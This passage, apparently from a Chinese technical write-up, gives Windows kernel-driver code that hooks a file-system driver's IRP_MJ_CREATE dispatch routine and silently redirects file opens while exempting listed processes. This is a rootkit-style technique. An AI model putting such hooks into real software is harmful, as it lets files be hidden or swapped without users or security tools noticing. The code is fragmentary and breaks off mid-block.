 ```cpp

	if (!NT_SUCCESS(Status))
		return Status;

	HookDriverObject = FsGetDriverToHook(FileSystemDriver);
	
	if (HookDriverObject == NULL)
	{
		Status = STATUS_SUCCESS;
		goto clean;
	}

	if (IsRemove)
	{
		if (IsBetween((PCHAR)HookDriverObject->MajorFunction[IRP_MJ_CREATE], FsForbiddenRange.Min, FsForbiddenRange.Size))
		{
			Status = STATUS_UNSUCCESSFUL;
			goto clean;
		}

		g_FsOriginalCreateFileDispatcher = HookDriverObject->MajorFunction[IRP_MJ_CREATE];
		HookDriverObject->MajorFunction[IRP_MJ_CREATE] = FsCreateFileHook;
	}
	else
	{
		HookDriverObject->MajorFunction[IRP_MJ_CREATE] = g_FsOriginalCreateFileDispatcher;
	}
```
3. 确定是目标文件后,修改对应文件名字.实现"驱动级重定向"
```cpp
if (FsGetRedirectionTarget(FileObjectName, RedirectionTarget) != STATUS_SUCCESS)
	{
		goto exit;
	}
	//
	// Look if this process should be ignored
	//
	PCHAR ProcessName = PsGetProcessImageFileName(PsGetCurrentProcess());

	for (ULONG i = 0; i < 13; i++)
	{
		if (!_stricmp(ProcessName, g_FsHardcodedIgnoredProcessList[i]))
		{
			goto exit;
		}
	}

	for (ULONG i = 0; i < 64; i++)
	{
		if (!_stricmp(ProcessName, g_FsDynamicIgnoredProcessesList[i]))
		{
			goto exit;
		}
	}

	D_INFO_ARGS("Redirecting file %wZ", FileObjectName);

	ULONG TargetNameLength = (ULONG)wcslen(RedirectionTarget);
	ULONG ExistingFileNameCapacity = (FileObjectName->MaximumLength / 2);

	if (ExistingFileNameCapacity <= TargetNameLength)
	{
```